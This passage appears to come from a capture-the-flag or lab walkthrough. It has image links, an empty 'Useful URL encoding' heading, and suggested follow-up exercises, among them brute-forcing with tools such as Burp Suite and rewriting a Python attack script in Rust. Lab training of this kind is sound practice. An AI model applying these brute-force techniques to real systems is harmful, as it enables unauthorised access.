

### Useful URL encoding


### 📚 Recommended Actions for Deeper Understanding
  
🎨 **Get Creative**: Try approaching it in different ways.  
⚡ **Experiment with Tools**: Attempt brute-forcing using different tools like Burp Suite.  
🦀 **Code Challenge**: Rewrite the Python script in Rust and test it. 

Awesome! You can use this flag to access the next round.


